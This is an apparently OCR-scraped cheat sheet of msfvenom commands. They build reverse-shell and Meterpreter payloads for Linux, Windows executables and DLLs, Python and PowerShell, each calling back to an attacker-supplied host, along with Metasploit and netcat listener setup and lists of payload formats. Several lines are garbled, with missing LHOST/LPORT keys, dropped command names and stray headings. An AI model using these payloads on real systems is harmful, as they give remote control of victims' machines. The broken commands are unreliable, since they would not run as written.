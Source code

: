 ### Inline Meterpreter
```
 msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=YourIP LPORT=YourPort -f elf  santas.elf
```

Windows
### Executable with Meterpreter

```
msfvenom -p  windows/meterpreter/reverse_tcp =YourIP =YourPort -f exe shell-meterp.exe
```

####
>Executable with Windows cmd
```
 msfvenom -p windows/shell/reverse_tcp =YourIP =YourPort -f exe shell-cmd.exe
```



### Windows DLL with Windows cmd
```
 msfvenom -p windows/shell/reverse_tcp =YourIP =YourPort -f dll  shell-cmd.dll
```



### Execute Windows Command - generate dll named shell32.dll that will pop calc when ran
```
msfvenom -f dll -p windows/exec CMD="C:\windows\system32\calc.exe"-oshell32.dll
```


Languages
### Python
```
msfvenom -p cmd/unix/reverse_python LHOST=YourIP LPORT=YourPort -f raw
```



### Powershell
```
  windows/powershell_reverse_tcp LHOST=YourIP LPORT=YourPort -f raw
```


Payload Options
```
  --payload-options
 windows/meterpreter/reverse_tcp --payload-options
```

List encoders
```
root@kali:/# msfvenom -lencoders
```

#### shikata_gi_nai may throw an error on generation

In Metasploit set Listener for Windows Meterpreter
```
use exploit/multi/handler
payload windows/x64/meterpreter/reverse_tcp
```

####
In Metasploit set Listener for Linux Meterpreter
```
use exploit/multi/handler 
payload linux/x86/meterpreter/reverse_tcp
```


#### Set Netcat Listener
```
nc -lvpYourPort
```

#### Formats

Executable shell with an extension .elf .exe .py .php
Raw shellcode that can be pasted into an existing exploit. 

#### List of formats

```
msfvenom --help-formats
Executable formats
	asp, aspx, aspx-exe, axis2, dll, elf, elf-so, exe, exe-only, exe-service, exe-small, hta-psh, jar, jsp, loop-vbs, macho, msi, msi-nouac, osx-app, psh, psh-cmd, psh-net, psh-reflection, vba, vba-exe, vba-psh, vbs, war
Transform formats
	bash, c, csharp, dw, dword, hex, java, js_be, js_le, num, perl, pl, powershell, ps1, py, python, raw, rb, ruby, sh, vbapplication, vbscript
```




